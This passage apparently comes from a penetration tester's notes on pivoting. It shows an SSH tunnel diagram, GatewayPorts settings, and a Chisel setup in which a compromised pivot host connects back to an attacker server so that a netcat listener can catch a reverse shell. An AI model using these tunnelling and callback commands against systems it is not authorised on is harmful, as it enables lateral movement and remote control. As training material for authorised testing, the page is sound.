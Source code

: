 ```
│                                                                      │  │   Listens 127.0.0.1:1337                      │  │                                │  │                   │
│                                                                      │  │                                               │  │                                │  │                   │
│                                                1337 over 10.1.1.1:22 │  │                           22 over 10.2.2.2:22 │  │                                │  │                   │
│ 10. ssh root@127.0.0.1 -p 9003 -------------------------------------------► 127.0.0.1:1337 ----------------------------------► 127.0.0.1:22                 │  │                   │
│                                                                      │  │                                               │  │                                │  │                   │
│                                                                      │  │                                               │  │   ~C ssh> -L 9004:10.3.3.3:80  │  │                   │
│                                                                      │  │                                               │  │                                │  │                   │
│ 11. Listens 127.0.0.1:9004                                           │  │                                               │  │                                │  │                   │
│                                                                      │  │                                               │  │                                │  │                   │
│                                                1337 over 10.1.1.1:22 │  │                           22 over 10.2.2.2:22 │  │                                │  │                   │
│ 12. curl http://127.0.0.1:9004/ ------------------------------------------► 127.0.0.1:1337 ----------------------------------► 127.0.0.1:22 ────────────────┼──┼─► 10.3.3.3:80     │
│                                                                      │  │                                               │  │                                │  │                   │
└──────────────────────────────────────────────────────────────────────┘  └───────────────────────────────────────────────┘  └────────────────────────────────┘  └───────────────────┘
```

Notes:

* `1` For SSH server to listen at `0.0.0.0` instead of `127.0.0.1`, the `GatewayPorts yes` must be set in `/etc/ssh/sshd_config`.
* `1` With SSH (or Chisel, for example) **server** running on the Attacker the same can be achieved by doing **local** port forwarding instead of **remote**.

```
snovvcrash@attacker:~$ ./chisel server -p 8000
root@pivot1:# nohup ./chisel client 10.10.13.37:8000 443:127.0.0.1:9001 &
root@pivot1:# netstat -tulpan | grep 443
tcp6       0      0 :::443                 :::*                    LISTEN      18406/./chisel
snovvcrash@attacker:~$ rlwrap nc -lvnp 9001
```

{% hint style="info" %}
Let's say we're doing a Remote Port Forwarding via SSH (with `GatewayPorts yes`) through ProxyChains like this:

```
$ proxychains ssh -R 80:127.0.0.1:8080 root@192.168.1.11
```

Then it's crucial to make sure that local connections are excluded from ProxyChains interception via the `localnet 127.0.0.0/255.0.0.0` option in `proxychains.conf`. Otherwise, traffic redirection from server's 192.168.1.11:80 to client's 127.0.0.1:8080 are captured by ProxyChains and never reach the client!
{% endhint %}
